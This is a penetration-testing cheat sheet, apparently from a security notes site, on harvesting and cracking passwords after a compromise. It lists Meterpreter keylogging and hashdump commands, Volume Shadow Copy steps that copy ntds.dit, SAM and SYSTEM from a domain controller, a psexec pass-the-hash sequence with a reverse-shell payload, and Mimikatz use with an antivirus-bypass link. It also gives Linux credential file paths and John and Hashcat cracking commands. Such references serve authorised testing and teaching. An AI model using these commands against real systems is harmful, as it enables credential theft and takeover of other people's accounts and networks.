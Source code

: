 ```yaml
---
title: Obtaining and Cracking Passwords
category: Post-Exploitation
order: 6
---
```


> **Windows** 

Metasploit Key logger for passwords | keyscan_start, keyscan_stop, keyscan_dump
PwDump | Pwdump drops files to disk and caught by AV <br> http://www.tarasco.org/security/pwdump_7/
Fgdump | fgdump drops files to disk and caught by AV <br> Source available to evade AV <br> http://foofus.net/goons/fizzgig/fgdump/downloads.htm#previous-version
Other PWDump Versions | http://www.openwall.com/passwords/windows-pwdump

**[Mimikatz](https://github.com/gentilkiwi/mimikatz)**
1. Determine architecture (32 vs 64 bit)
2. Determine if you have admin privs 
3. [AV Bypass](http://www.blackhillsinfosec.com/?p=5555)

References:
* [Offensive Security](https://www.offensive-security.com/metasploit-unleashed/Mimikatz/)
* [Golden Ticket] (https://www.christophertruncer.com/golden-ticket-generation/) 
* [Mimikatz to dump passwords](http://blog.opensecurityresearch.com/2012/06/using-mimikatz-to-dump-passwords.html) 
* [Domain Passwords](http://carnal0wnage.attackresearch.com/2013/10/dumping-domains-worth-of-passwords-with.html)

**Metasploit hashdump**

{% highlight bash %}
meterpreter >hashdump (from memory)
meterpreter > run hashdump (hash and syskey from registry)
{% endhighlight %}

**Volume Shadow Copy Service (domain controller)**

{% highlight bash %}
cscript vssown.vbs /status or /start or /create /c
copy \\ ? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit ntdsbackup.dit 
copy \\ ? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM systembackup.bak
copy \\ ? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM sambackup.bak

Analyze with ntds Dump Hash
{% endhighlight %}

Required Tools:
* [vssown vbs](https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs)  
* [vssown py](https://github.com/MarkBaggett/MarkBaggett/blob/master/vssown.py)
* [ntds Dump Hash](http://csabarta.com/downloads/ntds_dump_hash.zip)

>**Pass the Hash**

***May require RID 500 account due to patch***
 
Windows credential editor | www.ampliasecurity.com/research
Metasploit psexec| <code> use exploit/windows/smb/psexec <br> set RHOST [victim] <br> set PAYLOAD windows/meterpreter/reverse_tcp <br> 	set SMBUser [admin_name]  <br> set SMBPass [admin_hash] <br> exploit </code> 
Nmap nse smb | tbd

> **Linux**

Users and Passwords:

* /etc/passwd and /etc/shadow

Network or WiFi Passwords:

* /etc/NetworkManager/system-connections

Gnome Keyring:

* ~/.gnome/keyrings

> **Password Cracking Tools**

**GPU**

* MD5 Cracker: http://bvernoux.free.fr/md5/index.php
* oclHashcat  and Hashcat (same project)
* CUDA-multiforcer
* aircrack-ng-CUDA
* pyrit (WPA and WPA w/ CoWPAtty)

**CPU**

* John
* Cain (note: wordlist is located at C:\Program file\Cain\Wordlist\Wordlist.txt)


> **John the Ripper**

View Cracked Passwords | <code> ./john --show [password file] </code>
Pause a session | CTRL-C
Kill a session | <code> CTRL-C twice quickly </code>
Restore a session | <code> ./john --restore </code>
Current Status | any key
Customize Session based on password policy (e.g., length) | edit john.conf (Linux) and john.ini (windows)
Combine Shadow and passwd | <code> ./unshadow passwd_copy shadow_copy > combined.txt </code>
Password length Customization | <code> MinLen and MaxLen <code>
Rule Set | [Korelogic](http://contest-2010.korelogic.com/rules.html)

***Useful Links***

* [Getting Started](https://www.tunnelsup.com/getting-started-cracking-password-hashes/)

> **Hashcat**

Usage:
{% highlight bash %}

hashcat -a 0 -m 1000 [NTLMHASHES] wordlists/rockyou.txt -r hob064.rule -o cracked.txt

#Finding kind of hash
hashcat --help | grep NTLM
{% endhighlight %}

Rule Sets:

* [hob0Rules](https://github.com/praetorian-inc/Hob0Rules)

Useful Links:

* [SANS - Breaking Various Hashes](https://pen-testing.sans.org/blog/2017/10/04/how-to-guide-cracking-into-piles-of-files)

>**Cain**

Word List location | C:\Program file\Cain\Wordlist\Wordlist.txt
Password Dictionary restarts at last point | Right-Click the dictionary-> select Reset initial file position

> **Password Lists**

Password Lists in Kali | /usr/share/wordlists/
Tailor Password list to policy | <code> > pw-inspector [-i FILE] [-o FILE] [-m MINLEN] [-M MAXLEN] [-c MINSETS] -l -u -n -p –s  <br> > pw-inspector -i /usr/share/wordlists/nmap.lst -o /root/passes.txt -m 6 -M 1 </code>
Combine Word Lists | <code> > cat wordlist.txt <wordlist2.txt....> | sort | uniq > dictionary.txt </code>
Word List from Website | <code> > mkdir /tmp/source <br> > cd /tmp/source <br> > wget -r -l [Page Depth] [target_website] <br> > cd .. <br> grep -h -r """" source | tr '[:space:]' '\n' | sort | uniq >wordlist.lst <br> > grep -v '<' wordlist.lst > newlist.lst </code>
Password Lists | https://downloads.skullsecurity.org/passwords/
Weakpass | https://weakpass.com/wordlist/online
Crackstation | https://crackstation.net/
Hashes.org | https://hashes.org/search.php


> **CISCO Group Password**

From Kali:<br>
<code>cisco-decrypt (GroupPassword)</code>


> **Mimikatz from Memory Image**

<code> vol.py -f system_image.vmem --profile=Win7SP1x64 mimikatz </code>


> **Rainbow Tables**

* http://project-rainbowcrack.com
* http://souceforce.net/projects/ophcrack
* http://lasecwww.epfl.ch/~oechslin/projects/ophcrack



